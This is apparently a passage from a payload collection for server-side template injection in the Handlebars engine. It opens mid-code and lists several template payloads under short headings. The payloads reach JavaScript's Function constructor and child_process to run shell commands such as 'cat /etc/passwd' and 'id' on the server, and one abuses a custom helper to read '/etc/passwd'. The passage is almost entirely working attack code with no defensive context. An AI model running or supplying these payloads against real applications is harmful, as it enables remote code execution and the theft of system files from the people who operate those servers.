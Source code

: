 ```
  {{/with}}
{{/with}}
```

## Exploiting Prototype Pollution

One approach is to use prototype pollution:

```
{{#with "constructor" as |c|}}
  {{#with (lookup c "constructor") as |cc|}}
    {{#with (lookup cc (lookup cc "name")) as |ccc|}}
      {{#with "return process.mainModule.require('child_process').execSync('cat /etc/passwd')" as |cmd|}}
        {{ccc cmd}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Using Helper Functions

If custom helpers are registered, they can sometimes be exploited:

```
{{#if (helper "/etc/passwd")}}{{/if}}
```

## Command Execution Payload

For direct command execution:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

